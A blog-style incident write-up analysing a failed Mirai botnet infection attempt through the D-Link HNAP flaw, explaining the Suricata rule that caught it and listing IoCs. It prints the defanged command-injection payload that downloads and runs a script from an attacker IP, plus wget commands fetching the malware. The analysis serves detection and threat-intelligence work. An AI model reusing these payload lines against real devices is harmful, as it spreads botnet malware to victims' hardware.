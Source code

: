# Attempted Mirai Infection and Analysis
---

## The Attack

- This began with a "drive by" infection attempt aiming to exploit a D-Link Router vulnerability CVE - 2015-2051. Thank fully this bot attack didn't find a D-Link Router and instead found a fully patched web server. The attack failed.  Breaking the initial vulnerability and exploit attempt down is beyond the scope of this project but I will give a brief overview. 
    - This website has some great analysis on this vulnerability:
        - https://musteresel.github.io/posts/2018/03/exploit-hnap-security-flaw-dlink-dir-615.html

Suricata Alert

- The Rule that fired was the following:
 ```
	alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"ET WEB_SERVER Possible D-Link Router HNAP Protocol Security Bypass Attempt"; flow:established,to_server; urilen:7; http.method; content:"POST"; http.uri; content:"/HNAP1/"; nocase; endswith; fast_pattern; http.header; content:"SOAPAction|3a 20|"; nocase; content:"/HNAP1/"; distance:0; pcre:"/^(?:set|get)/Ri"; content:"DeviceSettings"; within:14; reference:url,www.securityfocus.com/bid/37690; reference:url,doc.emergingthreats.net/2010698; classtype:web-application-attack; sid:2010698; rev:6; metadata:created_at 2010_07_30, updated_at 2020_11_02;)
```
- Lets break this Suricata signature down.
    1. The rule is an "alert" rule looking at http traffic from any port inbound from the variable EXTERNAL_NET to the networks assigned to the variable HOME_NET on any port.
    2.  The flow is set to established which means it will only match on established connections. Direction is "to server." 
    3. We set the urilen which sets a uri length of 7 characters. 
    4. We then see a sticky buffer of "http.method" which modifies the content "POST" which come after it. That is telling the logic to look in the http.method field for content of "POST." If the http.method field has a GET or any method other then POST, the logic won't continue to run and the rule won't fire. 
    5. We then see another sticky buffer of "http.uri." Again, this is giving a field for which to look for the content that follows it. In this case its saying look in the "http.uri" field for the content "/HNAP1/". You will notice that their is 7 characters in "/HNAP1/"
   6. We see "nocase" which sounds exactly what it does - makes it not case sensitive.
   7. Next is endswith, which according to the suricata manual it "modifies the content to match exactly at the end of a buffer."
   8.  "fast pattern" is fairly complicated and takes some time to explain. I suggest consorting with the suricata manual if you are interested in what this does. 
   9. We then see "http.header" sticky buffer which says " look at the http.header for the following content "SOAPAction|3a 20|" 
      - notice the |3a 20| . If you put that in cyber chef and decode from hex to ASCII you will notice it translates to the character ":" this is a special character and must be translate to hex in the rule or it will mess up the logic. This is trying to look for "SOAPaction:"
   10. We see another content which again is modified by the preceding http.header sticky buffer. This content is looking for "/HNAP1/.
   11. "distance: 0" is telling the logic to look for the preceding content of /HNAP1/ 0 bits away from the content before /HNAP1/ which in this case is SOAPaction:
     - the Suricata manual has a great picture that explains this concept
![image.png](/.attachments/image-532e61cd-c386-43e3-88e5-dcbf6874e550.png)
    

12.  We then see some pcre regex essentially looking for either "set" or "get" pcre:"/^(?:set|get)/Ri"
13. Right after the PCRE we see another content match looking for "DeviceSettings" This is followed by a distance modifier of "within: 14. This is best explained with another picture
![image.png](/.attachments/image-c6c457e7-6c99-49f2-9ec6-97adf0a4f158.png)

13. Thats it for the logic of the rule. Following the logic we have the Signature ID(SID) and some references and metadata(when the rule was created)

### The Traffic it matched on

![image.png](/.attachments/image-e052bfb3-7be3-4d92-9713-607756a2e185.png)

- As we can see we have a POST as the HTTP Method
- We have /HNAP1/ as the URI
- We have an HTTP header of SOAPaction: with  /HNAP1/ in the header.
- Immediately following /HNAP1/ we have "Get" which the regex will match on and then "DeviceSettings"
- Following DeviceSettings we have the contents of the exploit payload which can change depending on what the threat actor is going to do. 

### The Initial Exploit
Defanged!
```
cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://23.94.22[.]13/a/wget.sh;chmod 777 wget.sh;sh wget.sh selfrep.dlink;rm -rf wget.sh`"
```
This looks like a rather simple command injection.
- It does a CD (change directory) and if that executes with no errors it changes directory to the tmp directory.
- Then adds the current path to the PATH variable
- We see a CD to the /tmp directory where it then uses the wget tool to pull down a script titled "wget.sh" from http://23.94.22[.]13/a/wget.sh
- It then changed the permissions on the wget.sh script to 777 or rwxrwxrwx 
- We then see it use sh to execute wget.sh and it follows it all up by deleting itself. 


### Whats in wget.sh?

- To find this out we need to fire up a VM (behind a VPN) and wget this wget.sh script from the attacker webserver. 
    - To that end we can just run the same command (defanged of course)
    - Becareful from here on out. The ELF we eventually will grab can infect linux machines. Only  do this on a machine you can blow up and walk away from or reset. 
```
wget http://23.94.22[.]13/a/wget.sh
```
- Once we have wget.sh we can the cat the contents. 

![wget_sh.png](/.attachments/wget_sh-de81ca11-748b-49d0-ba8f-dc57f28ea875.png)

- Gnarly. Whats this thing trying to do? its rather simple. Its using wget to pull down the secondary payload, changing the permissions on it and executing it. It doesn't know the operating CPU so its trying from ARM to x86_64. It tries to install them all. 

### Whats the secondary payload?

- Lets find out by utilizing wget to pull it down

```
wget http://23.94.22[.]13/x86_64
```
- After we got that payload we can do a few things. 
    - We can start of by running the command "file" to get some details
![image.png](/.attachments/image-d7ca65f2-b5c8-4498-bd9b-6c3902f35225.png)

- Then lets run the "strings" command and see what we can find
    - If we look through all the strings we can see bots.infectedfam[.]cc This looks like potentially C2 domain. We should check that out later. 
![bots_infectedfam_cc_post.png](/.attachments/bots_infectedfam_cc_post-1e7ce95d-55de-4b0d-92dc-69b9b2f2ba99.png)

### Next steps

- At this point, We've collected a handful of IoC's. We have IP addresses(both from the original attack and the ones contained in the exploits). We have a domain. We also have some pretty unique strings we may be able to write a yara rule with down the road.  
- Lets investigate that domain. 
    - Just days old. Also proxied through cloudflare. - Smart. Don't exactly want to block Cloudflare IP. Can still block that domain though!
![image.png](/.attachments/image-ab391949-b696-432f-842f-a97e0dac6ea4.png)

- Next we can share this intel with the community by submitting our IoC's as a pulse on AlienVault OTX. I've done so. First Pulse for this domain!
https://otx.alienvault.com/pulse/6215c927cbce007580b75c5e

- I also submitted that ELF to Joes Sandbox for further analysis. You can find the report here:
https://www.joesandbox.com/analysis/576941/0/html

### What I'll be doing now.

- GHIDRA - I'm no programmer or reverse engineer but I'd like to get even deeper on how this Mirai flavor is working. 
- Yara rules for detection. 

![Ghidra.png](/.attachments/Ghidra-1beaa57c-010a-4612-b0c4-46c43b4d57fe.png)